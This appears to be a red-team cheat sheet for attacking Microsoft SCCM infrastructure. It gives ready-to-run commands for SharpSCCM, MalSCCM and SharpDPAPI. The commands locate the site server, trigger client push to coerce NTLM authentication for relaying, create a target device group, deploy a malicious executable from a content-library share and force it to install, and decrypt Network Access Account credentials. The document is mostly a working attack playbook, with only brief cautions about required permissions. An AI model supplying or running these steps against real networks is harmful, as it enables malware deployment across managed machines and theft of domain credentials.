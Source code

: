 ### Sources
https://github.com/Mayyhem/SharpSCCM 
https://github.com/PowerShellMafia/PowerSCCM - a bit outdated but still valid
https://github.com/nettitude/MalSCCM 
https://github.com/GhostPack/SharpDPAPI 

### Identify SCCM server on local machine

```
SharpSCCM.exe local siteinfo
```

```
MalSCCM.exe locate 
```

Those commands provide the responsible SCCM Server for the client and the site. Those are prerequersits for any furhter attacks.

### Verify SCCM configuration

```
MalSCCM.exe inspect /all /server:<PrimarySiteFQDN>
```

### Initiate Client Push (for relaying)

```
SharpSCCM.exe <server> <sitecode> invoke client-push -t "<windows_host_netbios_name>@445"
```
Details on relaying setup - https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a 
Additional relaying tips - https://posts.specterops.io/relaying-ntlm-authentication-from-sccm-clients-7dccb8f92867 

### Deploy malicous application by SCCM - ATTENTION - permissions within SCCM Infrastructure required - potential impact on target infrastructure

Create new group for deployment

```
MalSCCM.exe group /create /groupname:TargetGroup /grouptype:device
```

Add target computer to group

```
MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
```

Add application

```
MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
```

Deploy the application to the target group 

```
MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
```

Initiate checkin - which will trigger the installation as soon as possible

```
MalSCCM.exe checkin /groupname:TargetGroup
```

https://labs.nettitude.com/blog/introducing-malsccm/ 


### NAA Accounts

In case an NAA Account has been deployed or used it can be decrypted on the local client
```
SharpDPAPI.exe sccm
```

ATTENTION - local admin priviledges are required.
https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9
